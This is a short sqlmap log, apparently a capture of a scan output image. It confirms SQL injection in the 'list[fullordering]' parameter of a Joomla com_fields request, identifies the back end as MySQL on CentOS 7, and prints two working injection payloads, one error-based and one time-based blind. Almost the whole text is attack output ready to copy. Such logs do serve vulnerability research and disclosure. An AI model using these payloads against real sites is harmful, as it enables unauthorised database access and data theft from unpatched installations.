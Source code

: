 GET parameter 'list[fullordering]' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 2746 HTTP(s) requests:
---
Parameter: list[fullordering] (GET)
    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 2528 FROM(SELECT COUNT(*),CONCAT(0x717a766271,(SELECT (ELT(2528=2528,1))),0x716a6b6a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 4741 FROM (SELECT(SLEEP(5)))gIGU)
---
[18:14:46] [INFO] the back-end DBMS is MySQL
[18:14:46] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
web server operating system: Linux CentOS 7
